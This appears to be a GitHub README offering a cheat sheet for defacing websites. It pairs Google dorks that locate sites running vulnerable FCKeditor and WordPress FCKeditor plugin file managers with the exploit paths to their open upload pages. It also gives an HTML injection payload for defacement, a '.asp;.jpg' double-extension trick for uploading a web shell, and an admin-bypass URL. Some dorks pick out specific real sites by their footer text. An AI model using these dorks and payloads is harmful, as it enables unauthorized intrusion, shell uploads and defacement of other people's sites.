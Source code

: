 # Deface-page


Dork : 

notice: you google dork that direcotry :)

# Fckeditor

inurl:"/showcatrows.php?CategoryID="

exploit : "><marquee><h1>Your text</h1></mmarque>

inurl:"frame=product_detail"

exploit :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html

target.com/fckeditor/editor/filemanager/browser/default/connectors/test.html

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

# WordPress

inurl:''/wp-content/plugins/fckeditor-for-wordpress-plugin/''

+ intext:''DESIGN BY PURR.''

+ intext:''powered by WordPress. InBiz theme made it free by desain web.
Hosting by rozhled.cz''

+ intext:''Site entraA(r)nA(c) par WordPress | Connexion | Flux (RSS) des
articles | ThA"me Arthemia de Michael Jubel | Stats''

+ intext:''designed by Portland Web Design''

+ intext:''A(c) 2009 websitemagix.com powered by fotomagix''

+ intext:''powered by fotomagix''

+ intext:''realizace webu: Pavel Gloss''

+ intext:''A(c) 2008 - 2018 Heather Richards Live | All Rights Reserved.''

+ intext:''Powered by WordPress ( WordPress Deutschland ) - Handcoded by

 Exploit :

/wp-content/plugins/fckeditor-for-wordpress-plugin/filemanager/connectors/uploadtest.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/filemanager/connectors/test.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/fckeditor/editor/filemanager/browser/default/frmupload.html

/wp-content/plugins/fckeditor-for-wordpress-plugin/fckeditor/editor/filemanager/browser/default/browser.html

# Directory File Path :

/wp-content/uploads/.....

/wp-content/uploads/[YEAR]/[MONTH]/......

Select PHP extension and then Try to upload as .asp;.jpg filename
shell extension.

#Bypass-admin

Dork : "restaurants_details.php?id=" |

Exploit : /admin/dashboard.php

